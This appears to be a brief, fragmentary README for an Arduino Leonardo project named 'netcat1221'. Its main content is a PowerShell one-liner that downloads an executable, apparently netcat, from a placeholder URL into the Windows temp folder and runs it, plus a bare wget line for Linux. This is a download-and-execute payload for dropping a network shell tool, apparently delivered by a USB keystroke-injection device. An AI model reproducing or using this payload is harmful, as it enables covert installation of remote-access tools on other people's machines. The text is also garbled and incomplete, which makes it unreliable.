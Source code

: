 # netcat1221

        For arduino # LEONARD projetc;
                windows c# code powershell (new-object System.Net.WebClient).DownloadFile('netcat github url','%TEMP%\nc1221.exe'); Start-Process "%TEMP%\nc1221.exe"
                linux wget "url"
                

